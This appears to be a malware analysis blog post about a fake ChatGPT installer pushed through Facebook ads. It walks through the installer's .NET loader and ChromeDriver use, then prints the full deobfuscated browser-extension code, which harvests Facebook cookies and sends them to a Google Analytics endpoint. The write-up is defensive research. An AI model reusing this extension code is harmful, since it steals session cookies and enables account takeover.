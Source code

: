 ```yaml
---
title: "ChatGPT_Campaign"
classes: wide
header:
  teaser: /assets/images/malware-analysis/ChatGPT_Campaign/add.png
ribbon: DodgerBlue
description: "Abusing ChatGPT in a Mass Campaign in social media Adds ..."
categories:
  - Malware Analysis
toc: true
---
```


# OverView

In the morning I was serving Facebook until this ad appeared on my timeline.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/add.png)

This will catch the eyes of any security analyst due to the obvious fake domain and the intended wrong spelling of important words and also the general way of writing it especially this "400 trials" part.

So I went into this page and found things that made me more suspicious, here is it.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/about.png)

This page contains a `Gmail` email for communication and a local `Egyption`number It has a bad reputation from the comments and changed its name and working field many times.

# Initial Analysis

So with all that noticed I decided to look at their Software to check what is happening there.

I downloaded the provided compressed file and extracted it then extracted the `msi` files from the msi installer.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/extract.png)

and found that this is a `.NET` binary.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/file.png)

I checked virus total also and found this is flagged only in six vendors and no sandboxes.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/vt.png)

# Behavioral Analysis

I decided to fire up the app and as I expected the response was just by opening "chrome" and popping up a message saying the following...

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/error.png)

But actually, there is more I noticed happening.

I found a new process called `chromedriver.exe` running on my device.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/new.png)

I also found a new extension added to my chrome browser.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/ext.png)

This extension is coming from a `js` file inside the malware folders

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/malext.png)

# Code Analysis

Here we have three pieces to be examined the "initial sample, executed file, and the extension"

## Initial sample

The malware starts by killing the chrome process and his other dropped file "if running" then executing this "autogetcookies" function then showing the msg box that we saw, which means all the work will be in that function "autogetcookies"

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/start.png)

And here is the code for it.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/chromedrivers.png)

Actually what happens here is just registering a `ChromeDriver` which will be run with a hidden command prompt with the same profile for the user that ran the malware, the driver that gets registered is the second stage file that we saw running in our behavioral analysis.

There are three different drivers shipped with the malware and the malware chooses one of them based on the chrome version installed.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/var.png)

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/version.png)

If you don't know what is ChromeDrivers It's just a way to simulate the user interaction with the browser using the code.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/chat.png)

And the malware adds finally the malicious Extension just before executing the driver.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/addext.png)

# Chrome Driver

By doing some research I found that the file is an open-source project and by downloading the original file from its source and comparing hashes I found that they are the same and the file is clean.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/hash.png) ![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/org.png)

# Browser Extension

After some beautifying and renaming here is the code for the extension installed.

```js
const ANALYTICS_PATH = 'https://www.google-analytics.com/collect';
async function postData(_0x7e64x3 = '', _0x7e64x4 = {}) {
    const _0x7e64x5 = await fetch(_0x7e64x3, {
        method: 'POST',
        mode: 'no-cors',
        cache: 'no-cache',
        credentials: 'same-origin',
        headers: {
            '\x43\x6F\x6E\x74\x65\x6E\x74\x2D\x54\x79\x70\x65': 'application/x-www-form-urlencoded'
        },
        redirect: 'follow',
        referrerPolicy: 'no-referrer',
        body: _0x7e64x4
    })
}
var Facebook_cookies = [];
const getsss = () => {
    chrome['cookies']['getAll']({
        url: 'https://facebook.com'
    }, (_0x7e64x4) => {
        Facebook_cookies = _0x7e64x4['map']((_0x7e64x8) => {
            return `${''}${_0x7e64x8['name']}${'='}${_0x7e64x8['value']}${''}`
        })['join'](';');
        var Collected_data = new URLSearchParams();
        let _0x7e64xa = (Math['random']() + 1).toString(36)['substring'](3);
        Collected_data['append']('v', 1);
        Collected_data['append']('tid', 'UA-244628508-1');
        Collected_data['append']('cid', '35009a79-1a05-49d7-b876-2b' + _0x7e64xa);
        Collected_data['append']('t', 'pageview');
        Collected_data['append']('dp', btoa(`${''}${Facebook_cookies}${'|'}${navigator['userAgent']}${'|gpt'}`));
        postData(ANALYTICS_PATH, Collected_data)
    })
};
chrome['runtime']['onInstalled']['addListener'](function(_0x7e64xb) {
    getsss()
})
```

This extension will simply grab all the `Cookies` for `Facebook` and then send them to a google analytics server.